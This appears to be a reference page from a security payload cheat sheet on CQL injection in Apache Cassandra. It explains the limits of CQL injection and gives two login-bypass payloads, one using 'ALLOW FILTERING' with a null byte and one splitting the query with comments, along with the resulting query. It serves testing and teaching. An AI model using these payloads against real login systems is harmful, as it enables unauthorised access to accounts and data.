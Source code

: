 # Cassandra Injection

> Apache Cassandra is a free and open-source distributed wide column store NoSQL database management system.


## Summary

* [CQL Injection Limitations](#cql-injection-limitations)
* [Cassandra Comment](#cassandra-comment)
* [Cassandra Login Bypass](#cassandra-login-bypass)
    * [Example #1](#example-1)
    * [Example #2](#example-2)
* [References](#references) 


## CQL Injection Limitations

* Cassandra is a non-relational database, so CQL doesn't support `JOIN` or `UNION` statements, which makes cross-table queries more challenging. 

* Additionally, Cassandra lacks convenient built-in functions like `DATABASE()` or `USER()` for retrieving database metadata. 

* Another limitation is the absence of the `OR` operator in CQL, which prevents creating always-true conditions; for instance, a query like `SELECT * FROM table WHERE col1='a' OR col2='b';` will be rejected. 

* Time-based SQL injections, which typically rely on functions like `SLEEP()` to introduce a delay, are also difficult to execute in CQL since it doesn’t include a `SLEEP()` function.

* CQL does not allow subqueries or other nested statements, so a query like `SELECT * FROM table WHERE column=(SELECT column FROM table LIMIT 1);` would be rejected. 


## Cassandra Comment

```sql
/* Cassandra Comment */
```


## Cassandra Login Bypass

### Example #1

```sql
username: admin' ALLOW FILTERING; %00
password: ANY
```

### Example #2

```sql
username: admin'/*
password: */and pass>'
```

The injection would look like the following SQL query

```sql
SELECT * FROM users WHERE user = 'admin'/*' AND pass = '*/and pass>'' ALLOW FILTERING;
```


## References

- [Cassandra injection vulnerability triggered - DATADOG - January 30, 2023](https://docs.datadoghq.com/fr/security/default_rules/appsec-cass-injection-vulnerability-trigger/)
- [Investigating CQL injection in Apache Cassandra - Mehmet Leblebici - December 2, 2022](https://www.invicti.com/blog/web-security/investigating-cql-injection-apache-cassandra/)